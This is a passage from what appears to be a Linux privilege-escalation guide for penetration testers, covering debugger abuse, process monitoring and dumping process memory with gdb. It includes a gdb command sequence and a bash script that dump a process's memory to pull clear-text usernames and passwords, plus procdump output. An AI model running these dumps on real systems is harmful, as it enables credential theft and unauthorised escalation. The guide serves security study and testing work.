 Always check for possible [**electron/cef/chromium debuggers** running, you could abuse it to escalate privileges](electron-cef-chromium-debugger-abuse.md). **Linpeas** detect those by checking the `--inspect` parameter inside the command line of the process.\
Also **check your privileges over the processes binaries**, maybe you can overwrite someone.

### Process monitoring

You can use tools like [**pspy**](https://github.com/DominicBreuker/pspy) to monitor processes. This can be very useful to identify vulnerable processes being executed frequently or when a set of requirements are met.

### Process memory

Some services of a server save **credentials in clear text inside the memory**.\
Normally you will need **root privileges** to read the memory of processes that belong to other users, therefore this is usually more useful when you are already root and want to discover more credentials.\
However, remember that **as a regular user you can read the memory of the processes you own**.

> [!WARNING]
> Note that nowadays most machines **don't allow ptrace by default** which means that you cannot dump other processes that belong to your unprivileged user.
>
> The file _**/proc/sys/kernel/yama/ptrace_scope**_ controls the accessibility of ptrace:
>
> - **kernel.yama.ptrace_scope = 0**: all processes can be debugged, as long as they have the same uid. This is the classical way of how ptracing worked.
> - **kernel.yama.ptrace_scope = 1**: only a parent process can be debugged.
> - **kernel.yama.ptrace_scope = 2**: Only admin can use ptrace, as it required CAP_SYS_PTRACE capability.
> - **kernel.yama.ptrace_scope = 3**: No processes may be traced with ptrace. Once set, a reboot is needed to enable ptracing again.

#### GDB

If you have access to the memory of an FTP service (for example) you could get the Heap and search inside of its credentials.

```bash
gdb -p <FTP_PROCESS_PID>
(gdb) info proc mappings
(gdb) q
(gdb) dump memory /tmp/mem_ftp <START_HEAD> <END_HEAD>
(gdb) q
strings /tmp/mem_ftp #User and password
```

#### GDB Script

```bash:dump-memory.sh
#!/bin/bash
#./dump-memory.sh <PID>
grep rw-p /proc/$1/maps \
    | sed -n 's/^\([0-9a-f]*\)-\([0-9a-f]*\) .*$/\1 \2/p' \
    | while read start stop; do \
    gdb --batch --pid $1 -ex \
    "dump memory $1-$start-$stop.dump 0x$start 0x$stop"; \
done
```


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714